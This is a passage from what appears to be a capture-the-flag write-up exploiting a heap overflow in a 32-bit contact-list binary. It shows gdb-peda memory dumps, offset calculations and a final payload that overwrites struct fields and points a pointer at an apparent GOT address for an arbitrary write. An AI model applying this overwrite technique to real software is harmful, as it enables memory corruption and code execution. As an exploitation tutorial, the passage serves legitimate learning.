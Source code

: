 ```
0x804b0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0e0:	0x00000000	0x00000000	0x00000032	0x00000001
0x804b0f0:	0x09f2d068	0x09f2d058	0x31797567	0x00000000
0x804b100:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b110:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b120:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b130:	0x00000000	0x00000000	0x00000032	0x00000001
gdb-peda$ x/s 0x804b0a8
0x804b0a8:	"guy0"
gdb-peda$ x/s 0x804b0f8
0x804b0f8:	"guy1"
gdb-peda$ x/w 0x804b0f4
0x804b0f4:	0x09f2d058
gdb-peda$ x/s 0x9f2d058
0x9f2d058:	"4685193270"
gdb-peda$ x/x 0x804b0f0
0x804b0f0:	0x09f2d068
gdb-peda$ x/s 0x9f2d068
0x9f2d068:	'1' <repeats 50 times>
gdb-peda$ x/d 0x804b0e8
0x804b0e8:	50
gdb-peda$ x/d 0x804b0ec
0x804b0ec:	1
```

Time to do some math with python:
```
>>> 0x804b0f8 - 0x804b0a8
80
>>> 0x804b0f4 - 0x804b0a8
76
>>> 0x804b0f0 - 0x804b0a8
72
>>> 0x804b0ec - 0x804b0a8
68
>>> 0x804b0e8 - 0x804b0a8
64
```

So with all of that information we know that after 64 bytes of filler, we will reach the length interger, then the enabled integer, then the description pointer, then the phone number pointer, then finally the name  followed by a null byte. We will need to replace all of it with data that should be there, however we can change it such as editing the length. The reason why we have to write the name and the null byte is because there will be a newline character appended tio the end of whatever we write, so we have to ensure that it goes into unused space.  Convinietly, we have all of this information since the only piece that changes is the description pointer, which we get throug the printf leak. So our payload will look like this:
```
payload = "0"*64 + p32(0x4) + p32(0x1) + p32(description) + p32(0x804b014) + p32(0x31797567) "\x00"
```
